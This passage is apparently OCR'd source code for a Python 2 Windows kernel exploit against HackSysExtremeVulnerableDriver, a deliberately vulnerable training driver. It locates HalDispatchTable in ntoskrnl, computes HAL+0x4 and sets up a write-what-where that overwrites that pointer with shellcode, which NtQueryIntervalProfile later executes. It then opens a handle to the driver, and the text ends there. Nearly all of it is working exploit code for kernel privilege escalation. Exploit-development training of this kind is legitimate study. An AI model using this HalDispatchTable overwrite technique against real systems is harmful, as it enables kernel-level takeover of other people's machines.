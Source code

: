 ```python
# NtQueryIntervalProfile is an undocumented Windows API function that references HAL at the location of HAL + 0x4.
# HAL +0x4 is the address we will eventually need to write over. Once HAL is exported, we will be most interested in HAL + 0x4

# Beginning enumeration
kernel_handle = kernel32.LoadLibraryExA(
    current_name,                       # lpLibFileName (specifies the name of the module, in this case ntlkrnl.exe)
    None,                               # hFile (parameter must be null
    0x00000001                          # dwFlags (DONT_RESOLVE_DLL_REFERENCES)
)

# Error handling if function fails
if not kernel_handle:
    print "[+] LoadLibraryExA() function failed!"
    sys.exit(-1)

# Getting HAL Address
hal = kernel32.GetProcAddress(
    kernel_handle,                      # hModule (handle passed via LoadLibraryExA to ntoskrnl.exe)
    'HalDispatchTable'                  # lpProcName (name of value)
)

# Subtracting ntoskrnl base in user mode
hal -= kernel_handle

# Add base address of ntoskrnl in kernel mode
hal += base_address

# Recall earlier we were more interested in HAL + 0x4. Let's grab that address.
real_hal = hal + 0x4

# Print update with HAL and HAL + 0x4 location
print "[+] HAL location: {0}".format(hex(hal))
print "[+] HAL + 0x4 location: {0}".format(hex(real_hal))

# Referencing class created at the beginning of the sploit and passing shellcode to vulnerable pointers
# This is where the exploit occurs
write_what_where = WriteWhatWhere()
write_what_where.What = payload_final   # What we are writing (our shellcode)
write_what_where.Where = real_hal       # Where we are writing it to (HAL + 0x4). NtQueryIntervalProfile() will eventually call this location and execute it
write_what_where_pointer = pointer(write_what_where)

# Print update statement to reflect said exploit
print "[+] What: {0}".format(hex(write_what_where.What))
print "[+] Where: {0}".format(hex(write_what_where.Where))


# Getting handle to driver to return to DeviceIoControl() function
print "[+] Using CreateFileA() to obtain and return handle referencing the driver..."
handle = kernel32.CreateFileA(
    "\\\\.\\HackSysExtremeVulnerableDriver", # lpFileName
    0xC0000000,                         # dwDesiredAccess
    0,                                  # dwShareMode
    None,                               # lpSecurityAttributes
    0x3,                                # dwCreationDisposition
    0,                                  # dwFlagsAndAttributes
    None                                # hTemplateFile
)
```
